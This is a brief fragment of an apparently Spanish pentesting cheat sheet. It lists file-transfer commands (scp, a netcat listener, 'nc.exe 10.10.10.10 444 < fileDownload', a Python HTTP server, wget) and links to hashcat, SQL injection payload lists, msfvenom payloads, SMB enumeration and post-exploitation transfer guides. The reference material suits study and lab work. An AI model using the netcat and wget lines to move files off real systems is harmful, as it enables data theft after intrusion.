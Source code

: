 |`scp /path/to/file username@a:/path/to/destination`|
|`scp username@b:/path/to/file /path/to/destination`|
|**nc**|
|`nc -lnvp 444 > fileDownload`|
|`nc.exe 10.10.10.10 444 -w 3 < fileDownload`|
|**http**|
|`python3 -m http.server 8080`|
|`wget http://10.10.10.10:8080/file`|


# Otros recursos
- [Reconocer un sistemas operativos por defecto de ttl ](https://subinsb.com/default-device-ttl-values/)
- [Uso y ejemplos de hashcat](https://miloserdov.org/?p=5426)
- [sintaxis de consultas de base de datos](https://docs.oracle.com/cd/E19078-01/mysql/mysql-refman-5.0/information-schema.html#tables-table)
- [Payloads de injeccion sql](https://github.com/payloadbox/sql-injection-payload-list)
- [Cheat Sheet de mfsvenom](https://thedarksource.com/msfvenom-cheat-sheet-create-metasploit-payloads/)
- [Enumeración de smb ](https://bestestredteam.com/2019/03/15/using-smbclient-to-enumerate-shares/)
- [Tansferir archivos](https://ironhackers.es/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)
- [ruoter ip forwarding](https://deephacking.tech/configurar-linux-para-que-actue-como-router-ip-forwarding/)
